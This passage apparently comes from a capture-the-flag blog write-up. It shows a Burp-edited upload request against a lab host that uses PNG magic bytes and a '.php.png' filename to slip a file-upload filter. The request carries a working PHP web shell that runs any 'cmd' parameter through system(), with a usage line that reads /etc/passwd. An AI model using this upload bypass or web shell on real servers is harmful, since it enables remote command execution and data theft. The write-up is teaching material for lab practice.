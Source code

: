 Using the Raw editor in Burp we replace our `a` (`61`) by the PNG's magic number
`89 50 4E 47 0D 0A 1A 0A`.

![Burp request with PNG's magic number](/media/2020.08/magic_05.png){: .image-process-article-image}

Our request now looks like the following (I was forced to clean the requests
with the magic numbers as it broke the RSS/Atom xml).

    :::text
    POST /upload.php HTTP/1.1
    Host: 10.10.10.185
    Content-Type: multipart/form-data; boundary=---------------------------1971341748341881315972996739
    Content-Length: 692
    Connection: close
    Cookie: PHPSESSID=gl7e03c4vb6ejee40tgeobjhfh

    -----------------------------1971341748341881315972996739
    Content-Disposition: form-data; name="image"; filename="simple-backdoor2.php.png"
    Content-Type: image/png

    <89>PNG
    ^Z

    <!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

    <?php

    if(isset($_REQUEST['cmd'])){
            echo "<pre>";
            $cmd = ($_REQUEST['cmd']);
            system($cmd);
            echo "</pre>";
            die;
    }

    ?>

    Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd
